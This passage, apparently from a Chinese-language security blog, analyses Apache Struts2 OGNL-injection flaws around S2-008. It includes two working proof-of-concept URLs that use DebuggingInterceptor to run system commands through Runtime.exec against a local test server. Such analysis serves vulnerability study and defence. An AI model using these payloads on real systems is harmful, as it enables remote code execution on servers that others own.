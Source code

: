 但是在以下情况仍可以绕过上述限制执行任意 Java 代码：


#### Struts &lt;= 2.2.3 (ExceptionDelegator) {#struts-2-dot-2-dot-3--exceptiondelegator}

当 Struts 将一个参数值赋值给属性而产生异常时，该值会被作为 OGNL 表达式执行，比如
将一个字符串值赋值给一个整型属性


#### Struts &lt;= 2.3.1 (CookieInterceptor) {#struts-2-dot-3-dot-1--cookieinterceptor}

Struts 的白名单机制只应用在请求参数上，但 CookieInterceptor 中并没有使用，所以在
处理 cookie 项时可能导致 OGNL 注入，而且攻击者可以通过表达式将
allowStaticMethodAccess 设置为 true

大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这
个点比较鸡肋


#### Arbitrary File Overwrite in Struts &lt;= 2.3.1 (ParameterInterceptor) {#arbitrary-file-overwrite-in-struts-2-dot-3-dot-1--parameterinterceptor}

虽然 allowStaticMethodAccess 默认是关闭的，但攻击者仍然可以访问只有一个 String 参
数的公共构造方法和 setter 方法，所以仍然可能导致任意文件写入、覆盖


#### Struts &lt;= 2.3.17 (DebuggingInterceptor) {#struts-2-dot-3-dot-17--debugginginterceptor}

应用以开发者模式（developer mode）运行时 DebuggingInterceptor 类可能导致任意代码
执行，不过一般生产环境都不会开启 developer mode，除非是被人放的后门

poc:

```nil
# 无回显
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)

# 可回显
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ipconfig%27%29.getInputStream%28%29%29)
```

以下是 DebuggingInterceptor#intercept 方法的关键部分，当 debug 参数是 command 时，
会取出 expression 参数，然后调用 OgnlValueStack#findValue

{{< figure src="/ox-hugo/2021-11-16_15-20-39_screenshot.png" >}}

最后把参数名当作 OGNL 表达式进行解析，调用栈如下：
